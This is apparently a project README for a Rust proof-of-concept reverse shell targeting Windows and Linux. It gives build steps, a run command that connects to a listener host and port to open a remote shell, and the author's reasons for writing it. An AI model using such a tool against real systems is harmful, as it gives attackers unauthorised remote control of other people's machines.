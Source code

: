 # Reverse shell
A basic proof of concept reverse shell for Windows and Linux in Rust.

## Usage

Compile the code with
```
cargo build --release
```
The executable will be in `/target/release`. Just run it with your listener host and port as arguments.
```
./reverse-shell.exe [host] [port]
```

## Why

After some advanced research, I still didn't find a working reverse shell for Windows online in Rust. I found a very simple one for Linux, but it uses files descriptors, so it is completely unusable on Windows... and my primary goal was the Windows support. The only available repository that contains a reverse shell in Rust that is supposed to work for Windows does not compile (and after taking a look at the errors, I wonder how it could have compiled one day). So, I did my best to make one myself, but I found myself struggling **a lot** with Rust's sockets and subprocess interactions. This reverse shell is far from perfect, but at least **it works**.